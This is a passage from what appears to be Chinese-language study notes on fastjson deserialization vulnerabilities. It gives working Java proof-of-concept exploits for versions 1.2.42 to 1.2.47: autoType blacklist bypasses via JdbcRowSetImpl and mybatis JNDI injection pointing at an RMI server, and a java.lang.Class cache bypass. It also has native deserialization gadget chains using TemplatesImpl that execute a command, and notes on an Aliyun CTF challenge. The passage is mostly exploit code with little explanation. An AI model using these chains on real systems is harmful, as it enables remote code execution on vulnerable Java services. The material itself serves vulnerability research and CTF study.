public class Poc2 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 使用黑名单过滤
        String PoC = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://localhost:1099/k5xdee\",\"autoCommit\":true}";
        System.out.println(PoC);
        JSON.parse(PoC);
    }
}
```



### 1.2.43

修复了二次绕过，多次重复不再生效

还记得之前那个[ 吗，这次绕过就是用的这个

依旧修改maven不贴了

给出Poc

```java
package org.example;

/**
 * @author L1ao
 * @version 1.0
 */
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Poc2 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 使用黑名单过滤
        String PoC ="{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://localhost:1099/nt91oz\",\"autoCommit\":true}" ;
        System.out.println(PoC);
        JSON.parse(PoC);
    }
}
```

### 1.2.44-1.2.45

修复了恶意类名前添加 [ 的引发安全问题

第三方库的链子

```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.3</version>
</dependency>
```

给出Poc

```java
package org.example;

/**
 * @author L1ao
 * @version 1.0
 */
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Poc2 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 使用黑名单过滤
        String PoC = " {\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://localhost:1099/nt91oz\"}}";
        System.out.println(PoC);
        JSON.parse(PoC);
    }
}
```

### 1.2.46-1.2.47

修复了上面的第三方链子

新的 java.lang.Class 利⽤链，利⽤ 缓存 mappings 从⽽绕过了⿊⽩名单的限制加载 com.sun.rowset.JdbcRowSetImpl 类。不受 autoTypeSupport 选项的影响，威⼒更⼤，范围更⼴。

给出Poc

```java
package org.example;

/**
 * @author L1ao
 * @version 1.0
 */
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Poc2 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 使用黑名单过滤
        String payload = "{\n" +
                " \"name\":{\n" +
                " \"@type\":\"java.lang.Class\",\n" +
                " \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                " },\n" +
                " \"x\":{\n" +
                " \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                " \"dataSourceName\":\"rmi://localhost:1099/nt91oz\",\n" +
                " \"autoCommit\":true\n" +
                " }\n" +
                "}";
        System.out.println(payload);
        JSON.parse(payload);
    }
}
```

利用java.lang.Class将com.sun.rowset.JdbcRowSetImpl注入到缓存中，然后反序列化com.sun.rowset.JdbcRowSetImpl时在缓存中绕过检测

## 7. 原生类反序列化

[https://paper.seebug.org/2055/](https://paper.seebug.org/2055/)

ois.readObject()

fastjson的一条链

Poc

```java
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "y4tacker");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

通杀链来自@1ue师傅，引用绕过

```java
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
import java.util.List;

import com.ctf.ezser.utils.MyObjectInputStream;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Test3 {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "1ue");
        setValue(templates, "_tfactory", null);

        List<Object> list = new ArrayList<>();
        list.add(templates);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        list.add(val);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(list);
        System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
        ObjectInputStream ois = new MyObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

#### 阿里云ctf ezbean

fastjson1.2.60，jdk 1.8.0_121（可以ldap），有tomcat

wp给的链子差不多但是本地就不通了，报默认构造器不存在，不解，上面的通杀链可以通

```java
package com.ctf.ezser;

import com.alibaba.fastjson.JSONArray;
import com.ctf.ezser.bean.MyBean;

import javax.management.BadAttributeValueExpException;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Poc {
    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        RMIConnector rmiConnector = new RMIConnector(new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:1099/tostil"),null);
        MyBean myBean = new MyBean("nm","ss",rmiConnector);
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(myBean);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);
        System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

default constructor not found. class javax.management.remote.rmi.RMIConnector

跑了下nu1l的exp依旧报默认构造器不存在，不解
